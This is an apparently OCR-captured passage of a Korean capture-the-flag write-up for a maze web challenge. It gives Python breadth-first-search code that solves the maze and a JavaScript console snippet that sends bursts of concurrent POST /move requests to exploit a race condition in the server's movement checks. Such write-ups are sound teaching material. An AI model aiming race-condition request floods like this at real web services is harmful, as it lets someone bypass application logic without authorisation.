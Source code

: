 ```python
    mat[i].append(maze[j])
maze = mat 

for i in range(len(mat)): 
    for j in range(len(mat[i])): 
        print(mat[i][j], end='')
    print()
    

d = deque([[0, 0, []]])
visited[0][0] = 1

while len(d) != 0: 
    curr = d.popleft() 
    curr_y, curr_x, path = curr[0], curr[1], curr[2]

    if curr_y == MAZE_SIZE - 2 and curr_x == MAZE_SIZE - 2: 
        print(path)
        move(path) 
        break 

    for k in range(4): 
        next_y = curr_y + dy[k]
        next_x = curr_x + dx[k] 

        if next_x < 0 or next_y < 0 or next_y >= MAZE_SIZE - 1 or next_x >= MAZE_SIZE - 1: continue 
        if visited[next_y][next_x] or maze[next_y][next_x] == '#': continue 
        visited[next_y][next_x] = 1
        new_path = copy.deepcopy(path) 
        new_path.append(dir[k])
        d.append([next_y, next_x, new_path])

for i in range(len(mat)): 
    for j in range(len(mat[i])): 
        print(visited[i][j], end='')
    print()
```                

이후, (33, 33) 위치에서 (34, 34) 도착 지점과 2, 3칸 떨어진 (30, 34) 위치로 이동했다. 그 이유는 (33, 33)에 위치하면 데이터베이스에 left, right, up, down 값이 반영되어있어 벽을 이동할 수 없기 때문이다. 
       
그래서, 도착 위치에서 조금 떨어진 (30, 34) 또는 (31, 34)에서 Race Condition을 시도했다.    

```javascript
async function gogo(id) {
    const xhr = new XMLHttpRequest();
    xhr.open("POST", "/move?id=" + id + "&move=down", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

    xhr.onreadystatechange = () => {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            console.log(xhr.responseText);
        }
    };
    xhr.send("");
}

for (let i = 0; i < 5; i++) {
    gogo("fbb96d75-3d61-471f-9233-c63548c1b743");
    gogo("fbb96d75-3d61-471f-9233-c63548c1b743");
}
```               
콘솔에서 스크립트를 실행시키고 Down 버튼 또한 같이 눌러 여러 요청을 보내 문제를 해결할 수 있었다.       
        